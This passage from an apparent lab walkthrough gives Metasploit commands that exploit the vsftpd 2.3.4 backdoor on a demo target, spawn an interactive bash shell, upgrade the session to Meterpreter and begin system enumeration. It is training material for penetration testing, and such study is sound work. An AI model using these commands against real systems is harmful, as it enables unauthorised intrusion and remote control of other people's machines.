 Search for the **vsftpd** exploit module:

```bash
search vsftpd
```

Set the target address:

```bash
setg rhosts demo.ine.local
```

Use the **vsftpd backdoor** exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

List the contents of the current directory:

```bash
ls
```

Spawn a **bash shell**:

```bash
/bin/bash -i
```

After interacting with the shell, send the session to the background:

```bash
CTRL + Z
```

List all active sessions:

```bash
sessions
```

Upgrade the current session to a **Meterpreter session**:

```bash
sessions -u 1
```

Once upgraded, list all sessions:

```bash
sessions
```

Switch to session 2:

```bash
sessions 2
```

#### Step 3: Performing System Enumeration

Switch to a **native shell** to begin enumerating system information:

```bash
shell
```
